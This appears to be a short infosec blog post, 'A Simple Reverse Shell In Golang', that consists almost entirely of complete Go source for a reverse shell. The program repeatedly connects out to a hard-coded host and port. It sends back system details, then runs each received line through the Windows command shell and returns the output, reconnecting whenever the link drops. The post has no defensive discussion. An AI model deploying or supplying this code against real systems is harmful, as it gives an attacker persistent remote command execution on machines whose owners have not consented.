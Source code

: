```yaml
---
layout: post
title: "A Simple Reverse Shell In Golang 🐚"
date: 2019-07-16 12:00:03 -0700
categories: go golang reverse shell infosec
published: true
---
```


This article assumes programming proficiency in `Golang` and familiarity with network programming concepts such as TCP/IP & sockets.

## **Shell Shoveling In Golang**

This is a simple example of a reverse shell I wrote in the programming language `Go`. While I originally wrote this for the windows operating system, this reverse shell should work cross-platform.

```go

package main

import (
    "bufio"
    "fmt"
    "net"
    "os"
    "os/exec"
    "runtime"
    "strings"
    "time"
)

func main() {
    for {
        conn, err := net.Dial("tcp", "192.168.0.9:6666")
        if err != nil {
            time.Sleep(10 * time.Second)
            continue
        }
        fmt.Fprintf(conn, "\nOS: %s\nArchitecture: %s\n", runtime.GOOS, runtime.GOARCH)
        shell := os.Getenv("ComSpec")
        fmt.Fprintf(conn, "shell: %s\n\n", shell)

        scanner := bufio.NewScanner(conn)
        for scanner.Scan() {
            data := scanner.Text()
            out, _ := exec.Command(
                shell,
                append(
                    []string{"/C"},
                    // strings.Split(strings.TrimSpace(data), " ")...,
                    strings.TrimSpace(data),
                )...,
            ).CombinedOutput()

            fmt.Fprintf(conn, "\n%s\n", string(out))
        }

        if err := scanner.Err(); err != nil {
            fmt.Fprintf(conn, "\nError: %s ...\n", err)
        }

        time.Sleep(5 * time.Second)
    }
}

```